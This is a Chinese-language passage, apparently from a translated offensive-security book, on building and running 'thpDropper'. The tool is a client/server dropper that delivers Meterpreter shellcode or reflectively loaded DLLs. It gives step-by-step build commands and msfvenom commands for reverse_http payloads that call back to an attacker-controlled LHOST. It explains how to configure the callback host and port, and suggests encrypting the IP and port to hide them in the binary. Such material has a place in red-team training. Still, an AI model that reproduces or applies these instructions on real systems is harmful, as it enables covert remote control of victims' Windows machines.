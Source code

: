 对于首次编译：
* cd /opt/
* sudo apt-get install build-essential libssl-dev cmake git
* git clone https://github.com/cheetz/thpDropper.git
* cd thpDropper/thpd 
* mkdir build
* cd build 
* cmake .. 
* make

对于后续编译，你需要做的就是：
* cd /opt/thpd/build
* make

要运行服务器，在编译它之后，你需要输入：
* ./thpd [path to shellcode/DLL] [loadtype]

以下值当前对加载类型有效：

|0|Shellcode|这会将原始的汇编 shellcode 字节发送到客户端|
|------|------|------|
|1|DLL|这会发送一个普通的的 DLL 文件，以反射方式加载到客户端中|

虽然这些 payload（shellcode / DLL）可能是来自任何类型的 C2 工具（Metasploit/Meterpreter，Cobalt Strike 等），但是我们在示例中仅仅使用一个 Meterpreter payload。

生成一个 payload ：
* 对于 Shellcode payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f c
    * 注意，你必须使用 [msfvenom](http://www.ko0zh1.cc/2017/07/27/msfvenom%E8%AF%A6%E8%A7%A3/) 的输出，并且仅仅使用原始的汇编 shellcode（删除引号、新行和任何非 shellcode 的内容）。
    * 启动服务器：./thpd ./shellcode.txt 0 

* 对于 DLL payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f dll > msf.dll 
    * 启动服务器: ./thpd ./msf.dll 1
    
### 客户端
客户端以与服务器类似的方式运行，其中它为每种消息类型注册了一个处理程序（handler）。在启动时，它将尝试回调服务器，如果无法连接或一旦断开连接则重试 n 次，并发送消息要求加载 blob 对象。服务器将使用 `BLOB_PACKET` 进行响应，客户端将通过 `head`--> `msg` 字段识别并分派该 `BLOB_PACKET`。所有数据包必须在开始时定义 `HEAD_PACKET` 字段，否则网络处理程序将无法识别它，并将其丢弃。 使用 `BuildPacketAndSend()` 函数将正确设置头数据包，允许另一方解码它。

要构建客户端，你需要使用 `Visual Studio` 和 `Git` 。 首先将 Git 仓库（ https://github.com/cheetz/thpDropper.git ）克隆到一个文件夹中，然后在 `Visual Studio` 中打开 `thpDropper.sln`。确保为代码设置了正确的体系结构，如果你不需要任何调试信息，请将编译模式设置为`build for release`。完成此操作后，按 F7 键（编译快捷键），`Visual Studio` 会为你生成可执行文件。

### 配置客户端和服务器
在 `globals.cpp` 文件中可以查看大多数客户端的配置，你想要更改的三个主要配置设置是主机名、端口和数据包时间间隔。每个设置旁都有详细的注释，告诉你它们是什么。虽然你不需要更改数据包签名，但我还是得说一下：更改数据包签名将修改发送的每个数据包的前 2 个字节，用于标识它是服务器上的有效连接。如果你希望对 IP 和端口进行模糊处理，则可以编写代码以在访问它们时对其进行解密，并仅将加密版本存储在二进制文件中。

在服务器端，在 `main.cpp` 文件中，你可以修改服务器正在监听的端口。此配置在 main 函数中作为 `StartupNetworking()` 的唯一参数。如果你决定更改客户端中的数据包签名，则需要修改服务器以反映该数据包。这意味着在 `include/lib/networking.h` 文件中，`PACKET_SIGNATURE` 值要与客户端中的全局变量相匹配。
